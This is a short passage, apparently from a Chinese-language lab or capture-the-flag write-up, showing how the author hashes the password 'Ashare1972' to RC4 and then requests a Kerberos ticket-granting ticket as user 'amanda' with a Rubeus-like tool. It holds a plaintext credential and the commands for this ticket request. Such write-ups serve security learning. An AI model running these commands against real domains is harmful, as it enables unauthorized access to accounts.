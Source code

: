 我首先计算明文密码`Ashare1972`的 RC4，因为这是请求 TGT 所必需的:

```
.\r.exe hash /password:Ashare1972
```

![](img/13927023400b7659f82f9979ac442fee.png)

然后我请求一张票作为`amanda`，并将文件保存到`amanda-tgt`，

```
.\r.exe asktgt /user:amanda /rc4:7D0516EA4B6ED084F3FDF71C47D9BEB3 /outfile:amanda-tgt
```

![](img/ba79fd85201046cfda9337e4fdeb0df9.png)
